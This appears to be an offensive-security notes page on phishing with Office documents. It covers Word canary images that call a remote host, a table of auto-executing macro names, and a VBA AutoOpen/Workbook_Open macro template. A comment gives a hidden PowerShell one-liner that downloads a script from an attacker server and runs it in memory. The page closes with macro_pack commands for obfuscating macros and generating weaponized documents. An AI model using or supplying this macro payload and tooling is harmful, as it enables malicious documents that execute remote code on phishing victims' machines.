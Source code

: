 # Phishing - Office Documents

### Word canary image

A canary image is an image in a Word document that will, whenever the document
is opened in Microsoft `Word` or `libreoffice`, trigger a request to a remote
URL.

In a Capture The Flag scenario requiring phishing, a canary image can be used
to determine if the target is making use of Microsoft Word in order to pursue
Word related attacks (such as office documents with macros, etc.).

The process to create a canary image in a Word `.docx` document is as follow:
  - Insert tab -> Quick Part -> Field
  - Categories: "Links and References"
  - IncludePicture -> "File name or URL": `http://<IP>/canary.gif`

### Office documents with macro

###### Automatic macros ("auto macros")

*General concept.*

A number of macro names are associated with automatic execution upon
realization of specific operations. The following macro names are associated
by `MS Office` applications to automatic execution:

| Application | Macro name | Triggering operation |
|-------------|------------|----------------------|
| `Word` | `AutoOpen` |	Opening of an existing document. |
| `Word` | `AutoExec` |	Upon start of `MS Word` or loading of a global template. |
| `Word` | `AutoNew` |	Creation of a new document. |
| `Word` | `AutoClose` |	Closing of a document. |
| `Word` | `AutoExit` |	Upon exit of `MS Word` or unloading a global template. |
| `Excel` | `Workbook_Open` | Opening of the workbook. |
| `Excel` | `Workbook_WindowResize(ByVal Wn As Excel.Window)` | Resizing of the window of a workbook. |
| `Excel` | `Workbook_BeforeSave(ByVal SaveAsUI As Boolean, Cancel As Boolean)` | Before save of the workbook. |
| `Excel` | `Workbook_AfterSave(ByVal Success As Boolean)` | After save of the workbook. |
| `Excel` | `Workbook_BeforeClose(Cancel As Boolean)` | Before closing of the workbook. |
| `Excel` | `Workbook_BeforePrint(Cancel As Boolean)` | Before printing of the workbook. |
| `Excel` | `Workbook_NewSheet(ByVal Sh As Object)` | Creation of a new sheet. |
| `Excel` | `Workbook_SheetActivate(ByVal Sh As Object)` | Switching to a different sheet. |
| `Excel` | `Workbook_SheetSelectionChange(ByVal Sh As Object, ByVal Target As Range)` | Modification of a cell content. |
| `Excel` | `Workbook_SheetBeforeDoubleClick(ByVal Sh As Object, ByVal Target As Range, Cancel As Boolean)` | Before a double-click on a cell. |
| `Excel` | `Workbook_SheetBeforeRightClick(ByVal Sh As Object, ByVal Target As Range, Cancel As Boolean)` | Before a right-click on a cell. |

A more comprehension list of the `auto macros` supported by `Excel` can be
found in the official [Microsoft
documentation](https://docs.microsoft.com/fr-fr/office/vba/api/excel.workbook).

*Automatic macro example.*

The following `VBA` code execute the `Test` macro upon opening in `MS Word`
(with `AutoOpen`) and `MS Excel` (with `Workbook_Open`):

```
'<OS_COMMAND> basic example to download and execute in memory a PowerShell script from a webserver: cmd /c powershell.exe -NoP -NoExit -W Hidden -Exec Bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://<IP>/<PS_SCRIPT>').

Sub Test()
   Dim code: code = "<OS_COMMAND>"
   Shell (code)
End Sub

Sub AutoOpen()
   Test
End Sub

Sub Workbook_Open()
   Test
End Sub
```

###### Automated Office documents generation with macro_pack

[`macro_pack`](https://github.com/sevagas/macro_pack) is a Python script that
automatically obfuscate `VBA` macros and generate documents embedding macros. A
"community version" is open sourced and a "pro version", that includes
additional features, can be purchased.  

The following output formats are supported by `macro_pack` (listed using
`macro_pack.exe --listformats`):
  - Office documents:
    - Excel: `.xlsm`
    - Excel97: `.xls`
    - Word: `.docm`
    - Word97: `.doc`
    - PowerPoint: `.pptm`
    - MSProject: `.mpp`
    - Visio: `.vsdm`
    - Visio97: `.vsd`
    - Access: `.mdb`

  - `VB` formats:
    - Visual Basic Script: `.vbs`
    - HTML Application: `.hta`
    - Windows Script Component: `.sct`
    - Windows Script File: `.wsf`
    - XSLT Stylesheet: `.xsl`

  - Shortcuts / others formats:
    - Shell Link: `.lnk`
    - Groove Shortcut: `.glk`
    - Explorer Command File: `.scf`
    - URL Shortcut: `.url`
    - Settings Shortcut: `.SettingContent-ms`
    - MS Library: `.library-ms`
    - Setup Information: `.inf`
    - Excel Web Query: `.iqy`
    - (Pro version only) SYmbolic LinK: `.slk`
    - (Pro version only) Compressed HTML Help: `.chm`
    - Command line: `.cmd`
    - Visual Studio Project: `.csproj`

Note that `MS Office` applications must be installed for the corresponding
documents generation (`MS Word`, `MS Excel`, etc.).

```
# Generates a document incorporating the obfuscated VBA macro specified.
# The output document format will be automatically deducted by macro_pack from the given file extension.
macro_pack.exe -f "<VBA_TXT_FILE>" -o -G "<OUTPUT_FILE>"

# Opens the specified document, triggering AutoOpen / Workbook_Openuse macros. Useful for testing purposes.
macro_pack.exe --run "<FILE>"
```

--------------------------------------------------------------------------------

### References

https://github.com/sevagas/macro_pack
https://docs.microsoft.com/en-us/office/vba/word/concepts/customizing-word/auto-macros
https://docs.microsoft.com/fr-fr/office/vba/api/excel.workbook
https://www.excel-pratique.com/fr/vba/evenements_classeur
https://github.com/christophetd/spoofing-office-macro
https://www.youtube.com/watch?v=l8nkXCOYQC4
https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/
